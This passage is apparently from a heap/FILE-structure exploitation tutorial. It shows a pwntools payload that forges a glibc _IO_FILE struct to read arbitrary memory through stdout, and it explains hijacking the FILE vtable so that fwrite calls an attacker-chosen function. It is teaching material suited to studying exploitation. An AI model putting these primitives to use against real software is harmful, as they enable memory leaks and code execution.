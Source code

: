 #### Example

Example using [`pwntools`](https://docs.pwntools.com/en/stable/filepointer.html#module-pwnlib.filepointer)
to setup for reading `nb` number of bytes from address `target_address`

```py,hidelines=~
from pwn import *

~target_address = 0x1337
~nb = 0x100
fs = FileStructure()
# flags taken from unbuffered _IO_2_1_stdout_, but most importantly 0xfbad2887 & _IO_NO_WRITES == 0
fs.flags = 0xfbad2887
fs._IO_write_base = target_address
fs._IO_write_ptr = target_address + nb
fs._fileno = 1  # STDOUT_FILENO
payload = bytes(fs)  # payload to overwrite the whole field of _IO_FILE_plus struct
payload = fs.struntil("_fileno")  # payload to overwrite until _fileno

# Alternative way to automatically set the required fields and .struntil("_fileno")
payload = FileStructure().write(addr=target_address, size=nb) # 
```

[^no-write]: Default for `fopen(filepath, "w")` or achievable by `_flag & (~_IO_NO_WRITES)` (`_IO_NO_WRITES = 0x8`)

## Overwriting `vtable` Exploit

### Abusing `fwrite` & `glibc _IO_2_1_stdout_`

`fwrite` calls `_IO_sputn` which is the function at offset `0x38` inside the vtable.
Hence, when overwriting the vtable field to point to our fake vtable, for example
at address `0x13370000`, the target functon needs to be located at `0x13370038`.

```c
// https://elixir.bootlin.com/glibc/glibc-2.38/source/libio/libioP.h#L177
#define _IO_XSPUTN(FP, DATA, N) JUMP2 (__xsputn, FP, DATA, N)

// https://elixir.bootlin.com/glibc/glibc-2.38/source/libio/libioP.h#L380
#define _IO_sputn(__fp, __s, __n) _IO_XSPUTN (__fp, __s, __n)

// https://elixir.bootlin.com/glibc/glibc-2.38/source/libio/iofwrite.c#L30
size_t
_IO_fwrite (const void *buf, size_t size, size_t count, FILE *fp)
{
  size_t request = size * count;
  size_t written = 0;
  CHECK_FILE (fp, 0);
  if (request == 0)
    return 0;
  _IO_acquire_lock (fp);
  if (_IO_vtable_offset (fp) != 0 || _IO_fwide (fp, -1) == -1)
    written = _IO_sputn (fp, (const char *) buf, request); // calls _IO_sputn
  _IO_release_lock (fp);
  /* We have written all of the input in case the return value indicates
     this or EOF is returned.  The latter is a special case where we
     simply did not manage to flush the buffer.  But the data is in the
     buffer and therefore written as far as fwrite is concerned.  */
  if (written == request || written == EOF)
    return count;
  else
    return written / size;
}
```


[^no-read]: Default for `fopen(filepath, "r")` or achievable by `_flag & (~_IO_NO_READS)`